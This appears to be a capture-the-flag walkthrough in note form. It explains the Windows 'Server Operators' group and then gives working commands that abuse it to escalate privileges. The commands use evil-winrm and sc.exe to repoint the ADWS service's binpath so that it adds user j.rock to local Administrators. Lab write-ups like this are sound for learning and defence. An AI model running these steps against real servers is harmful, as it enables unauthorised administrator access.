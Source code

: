 Once you have connected the machine you can look for the user's (`j.rock`) services.

#evil-winrm
```
whoami /all
```

![[Screenshot_2025-10-22_04-54-26.png]]

## Group Server Operators

On **Windows**, the **“Server Operators”** group is a **built-in local group** that exists **on Windows Server editions** (not usually on Windows 10/11).

### 🧩 What the “Server Operators” group is

- **Built-in group** on Windows Server.
    
- Members can **perform administrative tasks on the server** without being full Administrators.
    
- Common privileges:
    
    - `Start/stop system services`
        
    - Manage shared resources (create/delete network shares)
        
    - Back up and restore files
        
    - Log on locally to the server
        
    - Shut down the system
        

> 🧠 They **can’t change security settings or install software** that affects all users — those actions require full Administrators.


## Start/stop system services

#evil-winrm 
Enumerate the services with the command `services`.

```
services
```

Use the ADWS Service.

![[Screenshot_2025-10-21_06-39-08.png]]

- Add the user `j.rock` to the local Administrators group.
```
sc.exe config adws binpath="net localgroup administrators j.rock /add"
```

**sc.exe config:** Modifies the configuration of an existing Windows service.

**adws:** Refers to the Active Directory Web Services — a legitimate Windows service.

**binpath=:** Specifies the executable path that the service will run when started.

**"net localgroup administrators j.rock /add":**  A command that adds the user j.rock to the local Administrators group.


- Stop the ADWS Service.
```
sc.exe stop adws
```

![[Screenshot_2025-10-22_04-58-24.png]]

- Start the ADWS Service.

```
sc.exe start adws
```

![[Screenshot_2025-10-22_04-58-24-1.png]]

- Exit the shell and log in again.

![[Screenshot_2025-10-22_05-18-34.png|901x639]]

Now you should be in the `administrators` group.

**Next step:** [[Administrator flag]]
